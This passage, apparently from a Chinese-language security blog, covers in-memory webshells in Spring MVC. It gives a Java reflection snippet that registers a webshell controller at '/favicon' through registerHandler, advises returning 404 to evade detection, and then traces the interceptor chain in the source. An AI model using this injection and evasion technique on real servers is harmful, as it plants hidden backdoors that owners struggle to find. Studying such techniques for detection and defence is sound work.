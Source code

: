 



③利用registerHandler

上面的方法适用于spring3.1后RequestMappingHandlerMapping为映射器。当用DefaultAnnotationHandlerMapping为映射器时。该类顶层父类的registerHandler接收urlPath参数和handler参数来注册controller。不过不常用了，贴一下利用方法：

```java
// 1. 在当前上下文环境中注册一个名为 dynamicController 的 Webshell controller 实例 bean
context.getBeanFactory().registerSingleton("dynamicController", Class.forName("org.example.springmvc.InjectedController").newInstance());
// 2. 从当前上下文环境中获得 DefaultAnnotationHandlerMapping 的实例 bean
org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping  dh = context.getBean(org.springframework.web.servlet.mvc.annotation.DefaultAnnotationHandlerMapping.class);
// 3. 反射获得 registerHandler Method
java.lang.reflect.Method m1 = org.springframework.web.servlet.handler.AbstractUrlHandlerMapping.class.getDeclaredMethod("registerHandler", String.class, Object.class);
m1.setAccessible(true);
// 4. 将 dynamicController 和 URL 注册到 handlerMap 中
m1.invoke(dh, "/favicon", "dynamicController");
```

还可以加个else不带参数时返回404状态码，减少被检测到的概率



## Interceptor拦截器内存马构造

Interceptor和Tomcat和Filter过滤器很类似。区别如下：

1. Interceptor基于反射，Filter基于函数回调
2. Interceptor不依赖servlet容器
3. Interceptor只能对action请求有用
4. Interceptor可以访问action上下文，栈里的对象。Filter不能
5. action生命周期中，Interceptor可以被多次调用，Filter只在容器初始化时调用一次
6. Interceptor可以获取IOC容器中的bean，Filter不行

由以上区别，Interceptor的应用和过滤器也就不同，Interceptor用来做日志记录，过滤器用来过滤非法操作



#### 源码分析

DispatcherServlet.doDispatch中，进行了getHandler，持续跟进发现最终调用的是AbstractHandlerMapping#getHandler()，该方法中调用了getHandlerExecutionChain()

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116151435756.png)

该方法从adaptedInterceptors中把符合的拦截器添加到chain里。adaptedInterceptors就存放了全部拦截器

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116151607398.png)

返回到DispatcherServlet#doDispatch()，getHandler后执行了applyPreHandle遍历执行了拦截器。

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20230116152125751.png)

